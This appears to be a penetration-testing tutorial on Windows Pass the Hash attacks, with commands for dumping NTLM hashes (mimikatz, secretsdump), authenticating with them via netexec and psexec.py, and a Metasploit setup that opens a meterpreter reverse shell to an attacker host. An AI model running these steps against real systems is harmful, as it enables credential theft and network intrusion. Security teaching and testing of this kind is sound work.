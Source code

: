 **Pass the Hash** (PtH) is a post-exploitation technique that allows attackers to authenticate to systems without needing plaintext credentials. Instead, attackers use the **hashed version** of a password directly to access resources. This is possible due to weak authentication protocols, primarily in Windows environments, which validate hashes rather than plaintext passwords.

---

## Key Concepts

- **Hash Authentication**: Many Windows services accept NTLM hashes as authentication without verifying the plaintext password.
- **Hash Retrieval**: Hashes are extracted from memory, SAM databases, or network traffic using tools like Mimikatz or secretsdump.
- **Lateral Movement**: Attackers use the retrieved hashes to access additional systems, escalating their control within the network.

--- 

## Obtain Hashes

- Extract NTLM hashes from a compromised system using tools like:

```bash
mimikatz sekurlsa::logonpasswords
```

Or dump hashes from the SAM database:

```bash
secretsdump.py <target_user>@<target_ip>
```

## Use Hashes to authenticate

#### Using netexec

| Option        | Description                                                |
| ------------- | ---------------------------------------------------------- |
| `<target_ip>` | Target machine's IP address.                               |
| `<username>`  | User account.                                              |
| `<NTLM_hash>` |  Hash (format: `<LM_Hash>:<NT_Hash>` or just `<NT_Hash>`). |

```bash
netexec smb <target_ip> -u <username> -H <NTLM_hash>
```

**Check for Administrative Access**: To see if the hash provides administrative privileges:

```bash
netexec smb <target_ip> -u <username> -H <NTLM_hash> --admin
```

**Execute Commands**: If administrative access is confirmed, you can execute commands:

```bash
netexec smb <target_ip> -u <username> -H <NTLM_hash> -x "whoami"
```

#### Using PsExec

**PsExec** is a Microsoft Sysinternals tool (and also a technique replicated by Impacket and Metasploit modules) that allows remote command execution via SMB.  
With PtH, it can authenticate using **NTLM hashes** instead of passwords.

```bash
psexec.py <domain>/<username>@<target_ip> -hashes <LM_Hash>:<NT_Hash>
```
- `-hashes` allows direct use of NTLM hashes.

- If the account is a local or domain admin, this spawns a remote SYSTEM shell.

#### Using Metasploit

1. **Search for a Suitable Module**: Use the `psexec` module, which supports NTLM hashes:

```bash
search psexec
use exploit/windows/smb/psexec
```

2. **Configure the Module**: Set the target information and hash:

```bash
set RHOSTS <target_ip>
set SMBUser <username>
set SMBPass <NTLM_hash>
set SMBDomain .
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <attacker_ip>
set LPORT <attacker_port>
```

3. **Execute the Exploit**: Run the exploit to establish a session:

```bash
exploit
# After a successful session, use `meterpreter` commands to gather information or escalate privileges:
meterpreter > sysinfo
meterpreter > getuid
```